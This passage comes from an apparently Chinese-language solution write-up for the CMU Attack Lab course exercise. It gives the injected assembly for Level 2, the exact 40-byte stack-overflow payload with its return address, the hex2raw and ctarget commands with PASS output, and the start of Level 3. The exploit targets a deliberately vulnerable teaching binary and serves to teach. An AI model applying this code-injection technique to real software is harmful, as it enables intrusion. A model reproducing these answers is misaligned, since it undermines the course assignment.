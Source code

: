 ```
gcc -c attack.l2.s -o attack.l2.o
objdump -d attack.l2.o

attack.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   68 ec 17 40 00          push   $0x4017ec
   5:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   c:   c3                      ret
```

得到攻击代码的字节序列（13 字节）:

```
68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3
```

因此攻击字节序列为：13 字节攻击代码+27 个无关字符+缓冲区首地址（小端序）。一个可行的字节序列为:

```
68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 dc 61 55 00 00 00 00
```

通过 hex2raw 生成攻击字符串，并进行测试：

```
./hex2raw < ctarget.l2.txt > attack.l2.txt
./ctarget -i attack.l2.txt -q
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 DC 61 55 00 00 00 00
```

#### Level 3

Phase 3 也需要注入攻击代码，使得函数返回到 `touch3` 中，与 Phase 2 不同的是，这次传入的参数是我们的 cookie 的**字符串表示**。

通过指令

```
man ascii
```

我们可以直接查看对应 ASCII 字符的 16 进制编码值，对于 cookie 值 0x59b997fa 的 16 进制编码表示为:

```
35 39 62 39 39 37 66 61
```
